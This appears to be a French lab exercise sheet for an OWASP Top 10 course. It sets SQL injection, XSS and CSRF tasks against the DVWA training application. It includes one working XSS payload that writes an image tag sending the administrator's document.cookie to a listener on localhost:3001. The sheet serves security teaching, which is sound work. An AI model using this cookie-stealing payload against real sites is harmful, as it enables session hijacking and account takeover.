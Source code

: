 ### TOP 10 OWASP

1. Dans l'application DVWA, en utilisant une injection sql, retrouvez les mots de passes des utilisateurs.
2. Dans l'application DVWA, en utilisant une injection xss, récupérez le cookie de l'adminstrateur.
```
<script>document.write('<img src="http://localhost:3001/cookie?cookie='+document.cookie+'" />')</script>
```

3. Dans l'application DVWA, en utilisant une vulnérabilité csrf, modifiez le mot de passe de l'admin